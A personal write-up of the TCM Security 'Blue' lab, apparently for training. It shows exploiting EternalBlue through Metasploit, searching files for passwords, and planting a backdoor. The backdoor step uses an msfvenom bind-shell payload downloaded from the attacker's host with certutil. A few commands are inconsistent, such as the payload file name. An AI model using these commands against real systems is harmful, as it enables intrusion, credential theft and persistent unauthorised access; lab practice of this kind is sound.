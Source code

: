# CTF Writeup: Blue (TCM Security)

***Date***:09/20/2024

---
## Table of Contents
- [Challenge Information](#challenge-information)
- [Challenge Description](#challenge-description)
- [Initial Setup](#initial-setup)
- [Reconnaissance](#reconnaissance)
- [Exploit Development](#exploit-development)
- [Solution](#solution)
- [Lessons Learned](#lessons-learned)
- [References](#references)

---

## Challenge Description
Enumerate and exploit a Windows 7 machine, and establish persistence. 
## Challenge Information
- **Name:** Blue
- **Category:** Windows 7, Network, Operating System
- **Difficulty:** Easy
- **CTF Platform:** TCM Security

---

## Reconnaissance and Exploitation

To begin, I made sure the machine was alive through a ping. Seeing it was alive, I moved on to an Nmap scan. 
```nmap -sV -A -Pn -p- -O2 192.168.81.133```

The flags seek to determine services on the machine, run available scripts against those machines, disable ping sweep, and scan all ports and not only the common ones. Through this, I found a bunch of services running on the machine. 

![[Pasted image 20240920160411.png]]


Below are the results from my Nmap Scan-
```
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-dsS Windows 7 Ultimate 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
```

From here, I went through Metasploit and the Web through each service to identify exploits. I found a module in Metasploit that performed enumeration on SMB to find which version it is running, scanner/smb/smb_version. I found that SMB was running 1.2, which is vulnerable to EternalBlue, a exploit in Microsoft's implementation of the SMB protocol that was infamously used by the WannaCry ransomware. It allows remote attackers to execute arbitrary code by sending crafted messages to the vulnerable machine's SMBv1 service.
 I decided to go with this one because it is extremely effective against that version of SMB, being an 8.1 CVSS score, and it would allow me to execute code remotely. I searched it up on Metasploit and found an exploit, exploit/windows/smb/ms17_010_eternalblue, and used that. 

I take a look at my options through the show options command. From here, I manage my options:
```
set rhost 192.168.81.133
set rport 445
exploit. 
```
After a couple tries, the script works and I land on a Meterpreter shell. 

![[Pasted image 20240920162915.png]]


From here, I run the commands systeminfo and ipconfig to ensure I am on the correct machine.  Ipconfig will list out the IP address of the machine, while systeminfo will spit out alot of relevant information about the machine, including Architecture, Operation System, Version, and more. One of my favorite one liners, discovered while going through the TCM course, ```systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"```, gives you the meat and potatoes of what you need: OS Name, Version, and the Architecture. 

I run some other enumeration commands, including:
-  `whoami` - Shows the current user or service account you are running as.
- `wmic logicaldisk get caption,description,providername` - Lists out the drives on the system, giving an overview of available file systems.
- `findstr /si password *.txt` - Searches the system for any files containing the word "password" in an attempt to find clear text credentials.


Enumeration is the king of Penetration Testing. You can never have too much information. 
If there was a flag objective, I would move on here to looking around the file system and seeing what things are around. Given the fact the objective is a simple exploit and not a flag, I move on to Persistence. 

If SSH, Telnet, or some other remote access tool was on, I would simply create a new user. However, as these are disabled, I opted to establish a backdoor. I simply used the built-in exploit/windows/local/persistence in my Meterpreter prompt. From here, I simply established my options, which port I preferred, and the type of shell. 

![[Pasted image 20240920163851.png]]

I then set up a netcat on my own machine to listen for the callback.

![[Pasted image 20240920164034.png]]
Once the machine reboots, it'll reach out to me here and I'll have a shell. 

If Metasploit wasn't available, I have some other options. I could've used a combination of setting up a server and certutil in order to download the shell onto the machine.

First, I would set up a server on my machine using the common python3 library http.server.
```python3 -m http.server 80```

After that, I would create a backdoor using Msfconsole, as so:
```msfvenom -p windows/shell_bind_tcp LHOST=192.168.81.131 LPORT=1231 -f exe > prompt.exe```
I'm using a Stageless Payload because of the fact that in a backdoor you want it all sent at once, rather than a Staged payload, which splits it up. I am also using the non-traditional 1231 port rather than 4444 to hopefully circumvent firewall rules. 4444 is the default port for Metasploit, and any firewall worth its salt would block traffic on that port. By choosing a less common port, I hoped to evade such rules.

From here, as I am now hosting this file, I would go to my RCE Shell and use certutil, a tool commonly exploited to transfer files, to download the prompt.
```certutil -urlcache -split -f "http://192.168.81.131:80/bind.exe" prompt.exe```

I drop from my Meterpreter shell and start the executable. 
![[Pasted image 20240920175020.png]]

I then Netcat into the machine;
![[Pasted image 20240920175601.png]]

And there you have it! A working backdoor. 
## Lessons Learned
One of the largest mistakes I had was not properly vetting the other services. Once I saw the SMB Vulnerability, I went straight for it without a second thought. I should've gone through the rest of the services and stockpiled a few different exploits before I started trying to get into the box. I also could've used tools like Smbclient on SMB rather than relying on Metasploit. 

Another big pitfall that I had was my notetaking. I was on top of it to begin with but once I exploited the machine and ran post-exploitation I started letting it slack. I shouldn't have had to go back in my machine to pull the screenshots for this Write-Up, as I should've taken them all as the discoveries happened. 

**Key Takeaways:**
- Always conduct thorough reconnaissance and explore multiple service vulnerabilities instead of jumping to the first one discovered.
- Maintain detailed and organized notes throughout the entire process to avoid backtracking.
- Use multiple tools in your enumeration